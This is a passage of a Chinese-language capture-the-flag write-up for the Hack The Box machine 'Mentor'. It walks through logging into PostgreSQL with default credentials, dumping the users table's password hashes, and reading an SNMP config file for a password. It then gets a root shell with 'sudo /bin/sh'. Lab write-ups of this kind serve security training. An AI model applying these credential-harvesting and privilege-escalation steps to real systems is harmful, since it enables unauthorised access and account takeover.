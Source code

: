 ### connect to database

命令

```docker
psql -h 127.0.0.1 -p 5432 -U postgres
```

密码也是postgres。输入 `\list` 查看全部database，发现 mentorquotes_db 

1. `\connect mentorquotes_db`  连接到数据库
2. `\dt`

```docker
mentorquotes_db=# \dt
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres 
```

1. `select * from xxx` 

```docker
mentorquotes_db=# select * from users;
id |         email          |  username   |             password             
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
```

还有一种方法是直接该models，加个password的字段。这样访问api的/users会返回密码

密码是 ： svc@mentorquotes.htb  /  `123meunomeeivani` 

### 提权

查看 `/etc/snmp` 目录，用以下命令去查看相关的snmp配置（去除掉注释）

```docker
/etc/snmp$ cat snmpd.conf | grep -v "^#" | grep .
```

![Untitled](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/2023031511.png)

密码是： `SuperSecurePassword123__` 

登录后 `sudo -l` 查看权限

```docker
sudo /bin/sh
```

## Reference

- [https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)
- [https://www.daehee.com/werkzeug-console-pin-exploit/](https://www.daehee.com/werkzeug-console-pin-exploit/)
- [https://0xdf.gitlab.io/2023/03/11/htb-mentor.html](https://0xdf.gitlab.io/2023/03/11/htb-mentor.html)

